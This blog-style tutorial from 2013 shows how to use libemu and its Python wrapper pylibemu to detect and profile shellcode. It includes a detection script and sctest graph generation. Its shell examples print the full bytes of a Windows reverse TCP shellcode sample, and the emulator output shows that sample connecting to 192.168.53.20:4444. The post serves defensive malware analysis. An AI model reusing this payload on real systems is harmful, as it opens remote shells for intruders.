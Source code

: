 x86 Emulation and Shellcode Detection
=====================================
date: 06/Mar/2013
summary: Libemu is a C library for x86 emulation and shellcode detection. Pylibemu is its Python wrapper that provides an easy-to-use API and has additional features compared to the default bindings.
tags: code, reversing

## Introduction

[Libemu](http://libemu.carnivore.it/) is a C library that provides x86 architecture emulation and [shellcode](http://www.infosecwriters.com/hhworld/shellcode.txt) detection features. It uses [GetPC](http://skypher.com/wiki/index.php?title=Hacking/Shellcode/GetPC) heuristics to identify shellcode blobs within an input buffer.

```
`GetPC` is a shellcode writing technique, commonly used with [selfmodifying](http://www.blackhatlibrary.net/Shellcode/Self-modifying)
shellcode. Self-modification is a technique that enables a piece code to mutate itself, primarily to hide from AV/HIPS filters.
A shellcode won't be loaded by a trusted loading mechanism, but would rather be injected into a target process's virtual
address space. As such, during execution, it will have very limited knowledge of its execution context. Specifically, it
won't be loaded at a known location and a reliable guess of its base location is unfeasible. Due to this limitation, one
cannot use hardcoded `jmp`/`call` addresses in a shellcode but rather rely on some code to get the base address and then
use offsets from the current base to reach specific locations inside shellcode buffer. Such a piece of code is also referred
to as being [Position Independent](http://en.wikipedia.org/wiki/Position-independent_code).
```

## Installation and Testing

Libemu install instructions are very well documented and a quick search would provide you good references, like [this](http://blog.xanda.org/2012/05/16/installation-of-libemu-and-pylibemu-on-ubuntu/) for example. Once both Libemu and it's Python binding, [pylibemu](https://github.com/buffer/pylibemu), are installed we can have a quick validation test:

```python
#!/usr/bin/env python

import sys
import pylibemu

buf = ""
for line in sys.stdin.readlines():
  buf += line

print "[+] Testing buf of fize %dB ..." % (len(buf))

emu = pylibemu.Emulator()
offset = emu.shellcode_getpc_test(buf)

if offset >= 0:
  print "[+] IS SHELLCODE!"
else:
  print "[-] NOT SHELLCODE!"
```

Above program creates an `Emulator` instance and uses it to perform `GetPC` test upon input buffer. It can read raw input from stdin which in our case will be pipe'd through an `echo` command as such:

```
$ echo -en "\xff\xff\xff\xff" | python emutest.py
[+] Testing buf of fize 4B ...
[-] NOT SHELLCODE!
$
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" | python emutest.py
[+] Testing buf of fize 173B ...
[+] IS SHELLCODE!
```

As is evident, the sample buffer that was used in a pylibemu usage example is indeed identified as shellcode through the `GetPC` test. Pylibemu provides another very useful API method, `test()`, that can profile shellcode bytes and identify Windows system calls, their parameters, return values, etc. This helps in understanding the behavior of identified shellcode:

```
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" | python emuprofile.py
[+] Testing buf of fize 173B ...
[+] IS SHELLCODE!
HMODULE LoadLibraryA (
  LPCTSTR = 0x02288910 =>
    = "ws2_32";
) =  0x71a10000;
int WSAStartup (
  WORD wVersionRequested = 2;
  LPWSADATA lpWSAData = 1244272;
) =  0x0;
SOCKET WSASocket (
  int af = 2;
  int type = 1;
  int protocol = 0;
  LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
  GROUP g = 0;
  DWORD dwFlags = 0;
) =  0x42;
int connect (
  SOCKET s = 66;
  struct sockaddr_in * name = 0x0012fe88 =>
    struct = {
      short sin_family = 2;
      unsigned short sin_port = 23569 (port=4444);
      struct in_addr sin_addr = {
        unsigned long s_addr = 339060928 (host=192.168.53.20);
      };
      char sin_zero = "       ";
    };
  int namelen = 16;
) =  0x0;
```

The profiling API identifies critical windows API calls above and emulates them in its x86 emulator. The return values for all system calls are recorded and dumped when requested. From the output it is evident that the shellcode under test will load the win32 socket library and then invoke socket calls to connect to host `192.168.53.20` through `4444/tcp` port. This implies that we are dealing with Windows/x86 Reverse TCP Bind shellcode.

## Extended Testing and CFG Generation

Libemu allows you to test arbitrary blob of bytes and test if it depicts shellcode-like behavior. Projects like [peepdf](http://code.google.com/p/peepdf/), [pyew](https://code.google.com/p/pyew/), and [Malzilla](https://code.google.com/p/pyew/) use Libemu for identifying, profiling and analyzing shellcode within arbitrary binary streams. Identifying shellcode in network streams is another interesting usecase and there is an [example](https://github.com/MITRECND/chopshop/blob/master/modules/shellcode_detector.py) for you to play around.

Libemu includes an interesting program, `sctest`, that can perform testing/profiling over arbitrary files. It can also generate a [CFG](http://en.wikipedia.org/wiki/Control_flow_graph) for detected shellcode and write it to a [DOT](http://en.wikipedia.org/wiki/DOT_%28graph_description_language%29) file which can then be rendered as an image:

```
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" >shellcode.bin
$
$ sctest -Sgs 1000000 -v -G test.dot <shellcode.bin
$
$ dot shellcode.dot -Tpng -o shellcode.png
```

Here is the generated CFG image:

![image](/static/files/posts_libemu_shellcode_detection/shellcode.png.webp)
